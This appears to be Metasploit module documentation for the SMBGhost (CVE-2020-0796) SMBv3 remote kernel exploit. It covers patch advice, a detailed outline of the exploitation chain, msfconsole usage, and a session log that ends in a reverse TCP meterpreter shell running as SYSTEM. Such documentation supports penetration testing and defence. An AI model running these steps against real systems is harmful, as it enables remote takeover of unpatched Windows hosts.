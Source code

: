 ## Vulnerable Application
A vulnerability exists within the Microsoft Server Message Block 3.1.1 (SMBv3) protocol that can be leveraged to
execute code on a vulnerable server. This remove exploit implementation leverages this flaw to execute code
in the context of the kernel, finally yielding a session as NT AUTHORITY\SYSTEM in spoolsv.exe.

This vulnerability was patched in March 2020 but prior to that enough information was publicly available to trigger a
crash which led to pre-patch workarounds. The official recommendation from [Microsoft][1] at the time was to disable
SMBv3 compression, a feature which this exploit relies on. The module's check method will determine this value using the
registry to identify whether or not compression has been disabled.

Other recommendations included restricting access to TCP port 445 via firewalls.

### Installation And Setup
Windows 10 versions 1903 and 1909 (without the patch) are vulnerable out of the box. The default setting is to have
SMBv3 compression enabled.

### Exploit Internals

The exploit is based on [this PoC][2] and [this research][3]. At a high level the steps are:

1. Leverage the vulnerability to create a read primitive for physical memory
    1. Use the vulnerability to write an `MDL` describing the physical memory to read into `KUSER_SHARED_DATA`
        * `KUSER_SHARED_DATA` is used because it exists at a known address and has read/write permissions
    1. Use the vulnerability to corrupt a `SRVNET_BUFFER_HDR` to reference the previously written MDL
    1. Attempt to negotiate with the remote server, causing the desired memory to be returned as the response
1. Use the read primitive to scan for the low stub, fingerprinting it based on a known value
1. Extract the address of the page map level 4 (PML4) from the low stub once found
    1. Store the address of the low stub because it exists within the HAL heap
1. Scan the PML4 for its self-reference entry to leak its address in virtual memory, this is also used to translate
  virtual addresses into physical addresses in the future
1. Scan the HAL heap looking for the `hal!HalpInterruptController`, fingerprinting it based on a known pattern
1. Extract the address of the `hal!HalpApicRequestInterrupt` from the `hal!HalpInterruptController`
1. Use the write primitive to overwrite the PTE for `KUSER_SHARED_DATA`, granting it the necessary privileges to be
  executable
1. Copy the shellcode (which is a combination of a kernel mode bootstrap and the usermode payload from Metasploit) to
  `KUSER_SHARED_DATA`
1. Use the write primitive to overwrite the pointer of `hal!HalpApicRequestInterrupt` in `hal!HalpInterruptController`,
  replacing it with a pointer to the shellcode
1. The shellcode queues an APC to inject the usermode payload into a spoolsv.exe instance with NT AUTHORITY\SYSTEM
  privileges

## Verification Steps

1. Start msfconsole
1. Do: `use exploit/windows/smb/cve_2020_0796_smbghost`
1. Set the `RHOSTS` and `PAYLOAD` options
1. Do: `run`
1. You should get a shell, the exploitation process may take a few minutes

## Scenarios

### Windows 10 Version 1909 Build 18363.418 x64

```
msf6 > use exploit/windows/smb/cve_2020_0796_smbghost
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > set RHOSTS 192.168.159.76
RHOSTS => 192.168.159.76
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf6 exploit(windows/smb/cve_2020_0796_smbghost) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] 192.168.159.76:445 - Executing automatic check (disable AutoCheck to override)
[!] 192.168.159.76:445 - The service is running, but could not be validated.
[*] 192.168.159.76:445 - Found low stub at physical address 0x0000000000013000
[*] 192.168.159.76:445 - PML4 at 0x00000000001ad000 (UEFI)
[*] 192.168.159.76:445 - HAL heap found at 0xfffff7cd80000000
[*] 192.168.159.76:445 - Found PML4 self-reference entry at 0x0122
[*] 192.168.159.76:445 - Found hal!HalpInterruptController at 0xfffff7cd80001478
[*] 192.168.159.76:445 - Found hal!HalpApicRequestInterrupt at 0xfffff8035f6b7bb0
[*] 192.168.159.76:445 - KUSER_SHARED_DATA PTE NX bit cleared!
[*] Sending stage (200262 bytes) to 192.168.159.76
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.76:49675) at 2021-04-09 14:01:43 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-RTCRBEV
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x64/windows
meterpreter > 
```

[1]: https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/adv200005
[2]: https://github.com/chompie1337/SMBGhost_RCE_PoC
[3]: https://ricercasecurity.blogspot.com/2020/04/ill-ask-your-body-smbghost-pre-auth-rce.html
